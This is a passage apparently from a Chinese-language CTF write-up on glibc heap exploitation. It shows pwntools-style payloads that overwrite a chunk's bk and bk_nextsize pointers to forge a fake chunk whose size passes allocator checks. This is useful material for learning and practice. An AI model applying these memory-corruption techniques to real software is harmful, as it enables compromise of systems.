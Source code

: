 ```plain
payload=p64(0)+p64(fake_chunk)
edit(3,payload)
```

chunk3\_bk-->fake\_chunk  
[![](assets/1701612337-dbd4760cd02b5f9c75a546eb01ee6f8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173057-24de393a-1d72-1.png)

```plain
payload=p64(0)+p64(fake_chunk+0x8)+p64(0)+p64(fake_chunk-0x18-5)
edit(1,payload)
```

chunk1\_bk-->fake\_chunk+8  
chunk1\_bk\_nextsize-->fake\_chunk-0x18-5

这里 chunk1\_bk\_nextsize-->fake\_chunk-0x18-5 是为了后面 fake\_chunk 的size为0x56，这样P位就是0，可以通过检查了(堆地址通常是0x55或者0x56开头,只有当0x56开头的时候才能绕过检查)

[![](assets/1701612337-3dccd5bcadf550183abd068e5b8a33e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173117-3066ab0c-1d72-1.png)

```plain
add(0x48) #9
```

这里size正好能够绕过检查，所以能够申请下来

[![](assets/1701612337-e0c0069608dfe3ce6d0efc9c2997652e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173129-37dbeff0-1d72-1.png)

